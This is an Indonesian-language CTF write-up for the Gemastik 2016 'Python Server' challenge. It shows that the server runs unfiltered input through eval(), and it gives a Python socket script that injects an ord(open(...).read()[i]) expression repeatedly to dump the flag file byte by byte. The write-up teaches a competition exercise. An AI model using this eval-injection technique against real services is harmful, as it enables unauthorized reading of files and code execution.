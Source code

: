 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : Python Server - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: ctf
tags: [gemastik,Pwnable]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Python Server](/images/python-server.png)


### Solusi :

Di dalam source code yang di berikan ternyata terlihat input yang kita berikan di jalankan di dalam *eval()*

```python
    req.sendall("Dec to Hex Converter - Insert number : ")
    number = req.recv(512)[:-1]
    req.sendall(hex(eval(number)) + "\n")
```

input kita pun tidak di filter dan memungkinkan kita untuk menjalankan expression sesuka kita, di dalam source code juga
ada baris code ini `flag = open('PythonServer.flag').read()` terlihat bahwa flag tersimpan di PythonServer.flag 
kemudian kita gunakan `ord(open('PythonServer.flag').read()[0])` untuk mengambil per index dari file PythonServer.flag
dan mengirimkan dalam bentuk decimal nanti output nya dalam bentuk hex. untuk mempercepat dump flag kami gunakan python.

```python
import socket

s = "target.netsec.gemastik.ui.ac.id"
port = 13338

result = ""
sock = socket.socket()
sock.connect((s, port))

print sock.recv(2048)
print sock.recv(2048)
sock.send("guest\n")
sock.send("guest\n")
x = 0

print sock.recv(2048)

while True:
    print sock.recv(2048)
    sock.send("hex\n")
    print sock.recv(2048)
    sock.send("ord(open('PythonServer.flag').read()["+str(x)+"])\n")
    data = sock.recv(2048)
    if "Please insert number" in data :
        break
    flags = chr(int(data,16))
    result += flags
    print data
    x += 1    
    
print result.rstrip('\n')
```

![Python Server Flag](/images/python-server-flag.png)
